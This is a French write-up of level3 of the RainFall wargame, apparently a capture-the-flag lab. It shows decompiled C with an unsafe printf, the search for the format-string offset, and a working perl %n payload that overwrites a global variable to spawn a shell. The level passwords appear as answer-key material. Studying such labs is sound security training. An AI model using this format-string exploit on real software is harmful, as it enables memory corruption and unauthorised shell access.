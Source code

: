 
# level3 :

pass : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

```bash
level0@RainFall:~$ su level3
Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Source :

```cpp
#include <stdio.h>
#include <stdint.h>

int		v() {
	char str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	printf(str);
	void	*m = 0x804988c;  // end of bss segment 0x08049890
	if (m == 64) {  // 0x40
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
	return (m);
}

int		main(int ac, char **av, char **envp) {
	return(v());
}
```

## Recherche :

On doit changer la valeur la valeure de la mémoire à l'addresse 0x804988c pour pouvoir réaliser notre exploit.

Ici `printf` est utiliser, est va pouvoir l'utiliser pour faire ce que l'on veut.
`Printf` utlise des format modifier `%` qui seront directement interpreter, n'étant pas protégé sur le binaire du level3.
On a donc :
    - `%s` pour afficher une chaine de caractère
    - `%x` pour afficher 4 octets en hexadécimal
    - `%n` pour l'écriture en mémoire

```sh
level3@RainFall:~$ ./level3
%x %x
200 b7fd1ac0
```

Pour déterminer l'offset où la chaine `str` sera mise en mémoire, on peut lancer cette commande :
`for((i=0; i<10; i++));do echo "Index $i" && python -c "print 'AAAA'+' %x'*$i" | ./level3; done`

qui nous donnera ce résultat :
```
Index 0
AAAA
Index 1
AAAA 200
Index 2
AAAA 200 b7fd1ac0
Index 3
AAAA 200 b7fd1ac0 b7ff37d0
Index 4
AAAA 200 b7fd1ac0 b7ff37d0 41414141
Index 5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
Index 6
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
Index 7
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
Index 8
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
Index 9
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
```

ou avec un script shell :
```sh
kali@kali:~/rainfall$ cat ./script.sh
#!/bin/bash
for ((i=0;  i < 200; i++))
do
        echo "Index $i" && (python -c "print 'AAAA%$i\$x'" ) | $1 | grep -A5 -B5 4141 > temp.pap

        if test -s "temp.pap"; then
                        cat temp.pap
                        break
        fi
done
rm temp.pap
```
Qu'on peut executer :
```
kali@kali:~/rainfall$ ./script.sh ./level3
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

On peut voir qu'on a un offset à 4.

On peut donc simplifier par :
```
level3@RainFall:~$ echo "AAAA%4\$x" | ./level3
AAAA41414141
```
ou
```
level3@RainFall:~$ echo "ABCD%4\$x" | ./level3
ABCD44434241
```

Où l'on retrouve bien ABCD en little endian. Donc si on remplace ABCD par l'addresse de `m` on pourra changer sa valeur avec l'option `%n`.

```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$x"' | ./level3 ; echo " ->$?"
�804988c ->0
```

`%n` écrit en mémoire avec la taille de la chaine de caractère qui lui est donnée.

Si on remplace x par n, au lieu d'afficher, on va donc écrire à l'adresse de mémoire donnée:
```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$n"' | ./level3 ; echo " ->$?"
� ->4
```

On voit que le code de retour n'est plus 0 mais 4, car on a une chaîne d'une longeur de 4.

On a donc tout ce qu'il nous faut pour écrire le script suivant :
- écrire à l'addresse 0x0804988c
- l'offset pour y écrire est 4
- la valeur que l'on veut mettre est 0x40

`(perl -e 'print "\x8c\x98\x04\x08"."\x90"x(0x40-4)."%4\$n"'; cat;) | ./level3`

## Exploit :

```
level3@RainFall:~$ (perl -e 'print "\x8c\x98\x04\x08"."\x90"x(0x40-4)."%4\$n"'; cat;) | ./level3

�������������������������������������������������������������
Wait what?!
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
